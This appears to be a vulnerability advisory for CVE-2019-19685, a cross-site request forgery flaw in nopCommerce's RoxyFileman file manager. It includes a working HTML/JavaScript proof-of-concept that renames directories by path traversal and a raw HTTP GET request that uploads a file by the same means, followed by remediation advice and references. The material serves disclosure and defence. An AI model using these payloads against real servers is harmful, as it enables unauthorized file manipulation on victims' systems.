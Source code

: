 # Cross-Site-Request-Forgery (CSRF)

## Summary

It was observed that the application, although implementing a strong Cross-Site Request Forgery protection, allowed for some requests to be sent without a valid synchronizer token. This allows attackers to cause application users or administrators to carry out functionality on their behalf, such as adding a new administrative user or changing a user's details.

Cross-Site Request Forgery (CSRF) is an attack which masks web application functionality in such a way so as to trick the user into loading a page that contains a spoofed request. The request inherits the identity and privileges
of the victim to perform an undesired function on the victim's behalf, like change the victim's e-mail address, home address, password, or purchase something. CSRF attacks generally target functions that cause a state
change on the server but can also be used to access sensitive data.

Affected are all the functionalities of the file Libraries/Nop.Services/Media/RoxyFileman/RoxyFilemanController.cs. CWE is classifying the issue as CWE-352. This is going to have an impact on confidentiality and integrity.

The weakness was discovered during July 2019 and it is traded as CVE-2019-19685 since 12/09/2019. The exploitability is told to be non-trivial. It is possible to launch the attack remotely. A single authentication is necessary for exploitation. Technical details are known, and a public exploit has been developed by Alessandro Magnosi and released to the public.

The issue was previously mitigated implementing the same-site cookie protection, which is set to “lax”. However, the implementation of RoxyFileman allows to delete, rename and move directories and files using the HTTP GET request method, making this kind of protection useless, as with same-site attribute set to “lax”, cookies are sent in any case if the HTTP Method is GET. Moreover, against any specification, the RoxyFIleman implementation doesn’t check the HTTP request, meaning that it is possible to upload a file using a non-RFC compliant GET (with a request body).

## Proof-of-Concept

The following PoC can be used to create a file under C:\Users\Public\Document [Replace depending on installation type]. 

**Steps to reproduce:**

1. Copy the code in poc.html file
2. Modify in the PoC the target references
3. Login as admin into NopCommerce web application
4. Open the file with the browser in a new tab
5. Check on the server filesystem if C:\Users\Public\Documents\pwnd.txt has been created


```

<html>
  <!-- CSRF PoC - Rename Directory Common -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var target = “http://192.168.226.128”;
        var xhr = new XMLHttpRequest();
        xhr.open("GET", target + "/nopcommerce\/Admin\/RoxyFileman\/ProcessRequest?a=RENAMEDIR&d=%2fimages%2fuploaded%2f..%2F..%2F..%2F..%2F..%2F..%2F..%2Finetpub%2fwwwroot%2fnopcommerce%2fViews%2fCommon%2f&n=Common2", true);
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3");
        xhr.withCredentials = true;
        var body = "";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

```


An additional PoC has been provided in a raw form to explain how it was possible to upload a file using a GET, below.

```
GET /Admin/RoxyFileman/ProcessRequest?a=UPLOAD HTTP/1.1
Host: <SNIPPED>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------3125261928760
Content-Length: 556
Connection: close
Cookie: [SNIPPED][To change with a valid admin session]

-----------------------------3125261928760
Content-Disposition: form-data; name="action"

upload
-----------------------------3125261928760
Content-Disposition: form-data; name="method"

ajax
-----------------------------3125261928760
Content-Disposition: form-data; name="d"

/images/uploaded/../../../../../../../../../../Users/Public/Documents/
-----------------------------3125261928760
Content-Disposition: form-data; name="files[]"; filename="pwnd.txt"
Content-Type: image/png

PWND!!!

-----------------------------3125261928760--
```

Using the following PoC, a file named “pwnd.txt” will appear in C:\Users\Public\Document folder.


## Remediation

Upgrading to version 4.3.0 solves the issue.

## References

*	https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF) 
*	https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet 
*	https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9042 



 
